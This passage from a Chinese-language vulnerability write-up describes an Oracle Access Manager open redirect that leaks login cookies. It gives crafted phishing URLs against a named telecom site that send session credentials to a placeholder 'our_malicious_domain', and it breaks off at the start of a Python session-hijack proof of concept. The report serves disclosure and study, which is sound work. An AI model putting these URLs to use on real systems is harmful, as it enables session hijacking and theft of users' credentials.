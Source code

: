 1）开放重定向 （如上面图2所示，wh可以自行修改）

2）含有关键信息的cookie是通过GET方式传递

这样我们就可以给用户发送钓鱼连接，

```
http://someotherdomain.com/oam/server/obrareq.cgi?wh=somewebsite.com wu=/protected/ wo=1 rh=https://somewebsite.com ru=/protected/
```

比如将wh修改为攻击者所控制的域名，这样攻击者就能获取用户在OAM登录成功之后所获取的登录凭据cookie，有了OAM授予的登录凭据cookie，攻击者就可以访问受保护域的资源



**扩大成果**

起初，我们认为这个漏洞只是个例，后来调查发现，我们实在是大错特错，有很多组织都存在类似这种漏洞，其中不乏一些大公司。我们开始寻找那些使用OAM 作为SSO解决方案并且有漏洞奖励计划的公司，很快，我们就发现了一家德国电信公司的站点(https://my.telekom.ro )存在此类漏洞。如果用户直接访问https://my.telekom.ro ，将会被重定向至

```
https://my.telekom.ro/oam/server/obrareq.cgi?wh=IAMSuiteAgent wu=/ms_oauth/oauth2/ui/oauthservice/showconsent wo=GET rh=https://my.telekom.ro:443/ms_oauth/oauth2/ui/oauthservice ru=/ms_oauth/oauth2/ui/oauthservice/showconsent rq=response_type=code&amp;client_id=98443c86e4cb4f9898de3f3820f8ee3c&amp;redirect_uri=http://antenaplay.ro/tkr&amp;scope=UserProfileAntenaPlay.me&amp;oracle_client_name=AntenaPlay
```

如果点击上面那个链接，又会被重定向至

```
https://my.telekom.ro/ssologin/ssologin.jsp?contextType=external&amp;username=string&amp;OverrideRetryLimit=0&amp;contextValue=/oam&amp;password=sercure_string&amp;challenge_url=https://my.telekom.ro/ssologin/ssologin.jsp&amp;request_id=-9056979784527554593&amp;authn_try_count=0&amp;locale=nl_NL&amp;resource_url=https://my.telekom.ro:443/ms_oauth/oauth2/ui/oauthservice/showconsent?response_type=code&amp;client_id=98443c86e4cb4f9898de3f3820f8ee3c&amp;redirect_uri=http://antenaplay.ro/tkr&amp;scope=UserProfileAntenaPlay.me&amp;oracle_client_name=AntenaPlay
```

用户必须登录授权之后，才能获取访问资源的权限。如果攻击者将 URL1中的rh修改为攻击者控制的恶意站点，如下：

```
https://my.telekom.ro/oam/server/obrareq.cgi?wh=IAMSuiteAgent wu=/msoauth/oauth2/ui/oauthservice/showconsent wo=GET rh=http://our_malicious_domain/msoauth/oauth2/ui/oauthservice ru=/msoauth/oauth2/ui/oauthservice/showconsent rq=responsetype=code&amp;clientid=98443c86e4cb4f9898de3f3820f8ee3c&amp;redirecturi=http://antenaplay.ro/tkr&amp;scope=UserProfileAntenaPlay.me&amp;oracleclientname=AntenaPlay
```

我们假装成受害者，点击了URL3，然后页面会调转到OAM登录页面，登录成功之后，会将OAM的授权信息发给攻击者控制的站点http://our_malicious_domain。然后http://our_malicious_domain 就会偷取合法用户登录的凭据，然后再将rh修改为原来的值（https://https://my.telekom.ro:443），然后再重定向给用户，这期间，用户一点察觉都没有



**0x03. OAM 会话劫持PoC及演示**

PoC：



```
#!/usr/bin/env python
    """
    Oracle OAM 10g Session Hijack
    
    usage: Oracle_PoC.py -d redirect_domain
    
    Default browser will be used to open browser tabs
    
    PoC tested on Windows 10 x64 using Internet Explorer 11
    
    positional arguments:
    
    """
    import SimpleHTTPServer  
```